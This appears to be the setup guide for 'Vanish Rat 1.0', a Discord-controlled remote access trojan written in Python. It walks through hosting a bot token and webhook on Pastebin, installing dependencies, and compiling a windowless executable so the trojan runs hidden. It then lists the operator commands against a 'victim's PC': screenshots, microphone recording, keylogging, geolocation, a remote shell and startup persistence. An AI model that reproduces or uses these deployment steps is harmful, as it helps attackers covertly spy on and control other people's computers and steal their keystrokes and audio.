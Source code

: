 
             Vanish Rat 1.0 - Setup Guide
--------------------------------------------------------
Author  : @deadconvicess | Packaged By: #deadconvicess
License : MIT
--------------------------------------------------------

 WHAT YOU NEED
----------------
1. Python 3.11+ Installed
2. A Discord Bot Token (https://discord.com/developers/applications)
3. A Discord Webhook URL (Discord Channel > Integrations > Webhooks)
4. Pastebin or Gist account for hosting config


 SETUP INSTRUCTIONS
---------------------
1. Create a Pastebin/Gist with:
   Line 1: Your Discord Bot Token
   Line 2: Your Discord Webhook URL

2. Make sure it's RAW viewable (Unlisted or Public)

3. Copy the RAW link and paste it into Rat.py:
   Example:
   config_url = "https://pastebin.com/raw/YourPasteID"

4. Install the required packages:
   pip install -r requirements.txt
   OR manually install:
   pip install discord requests pypiwin32 pycaw comtypes opencv-python numpy sounddevice scipy pyautogui pynput cryptography pycryptodome pillow aiofiles pyttsx3

5. Run the bot:
   python Rat.pyw


 OPTIONAL: BUILDING EXE
---------------------------------
For No Console Window:
- Nuitka: pip install nuitka
  nuitka --onefile --windows-disable-console Rat.py

- OR PyInstaller: pip install pyinstaller
  pyinstaller --onefile --noconsole Rat.py


DISCORD COMMAND PANEL
---------------------------
Once bot is running, type:
   .help
To view available commands.

Example Commands:
 - .ss        - Screenshot victim's PC
 - .mic       - Record 15 seconds of mic audio
 - .key start - Start keylogger
 - .geo       - Get public IP and location
 - .shell     - Run CMD commands on target machine
 - .stup      - Add bot to startup
 - .exit      - Disconnect bot


 TROUBLESHOOTING
-------------------
- Check bot token and webhook are valid and accessible
- Ensure all packages are installed
- Make sure you used a RAW Pastebin/Gist link


ENJOY USING VANISH RAT 1.0 

--------------------------------------------------------


